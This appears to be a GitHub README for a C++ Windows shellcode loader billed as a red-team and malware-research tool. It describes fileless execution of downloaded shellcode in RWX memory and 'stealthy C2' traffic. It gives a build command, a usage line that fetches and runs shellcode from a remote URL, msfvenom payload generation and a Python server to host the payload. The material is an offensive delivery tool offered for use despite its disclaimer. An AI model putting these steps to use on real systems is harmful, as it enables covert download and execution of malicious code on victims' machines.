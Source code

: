 A minimal C++ shellcode loader for Windows written for red team, malware research, and educational purposes.

## 🚀 Description

This tool demonstrates:
- Downloading remote shellcode via HTTP
- Allocating RWX memory with `VirtualAlloc`
- Executing shellcode directly from memory (fileless execution)
- Using the `wininet` API for stealthy C2 traffic

> 🔐 Educational use only. Unauthorized use of this code is illegal.

---

## 📂 Filename

**loader.cpp** – Console-based shellcode loader (C++)

---

## 📌 Technique

**In-memory shellcode execution over HTTP**

- **Download stage**: Retrieves shellcode from a remote URL
- **Memory stage**: Allocates executable memory (`PAGE_EXECUTE_READWRITE`)
- **Execution**: Transfers control to shellcode via a function pointer

---

## 🧱 Requirements

- `x86_64-w64-mingw32-g++` (MinGW-w64)
- Windows target

---

## ⚙️ Build

```bash
x86_64-w64-mingw32-g++ loader.cpp -o loader.exe -static -lwininet -s -Wl,-subsystem,console
```

## 🧪 Usage

```bash
loader.exe http://<ip_address>/shellcode.bin
```

## 🛠️ Example Shellcode Generation

```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o enc.bin
```

Serve with python:
```bash
python3 -m http.server 80
```

Then run
```bash
loader.exe http://127.0.0.1:30001/enc.bin
```
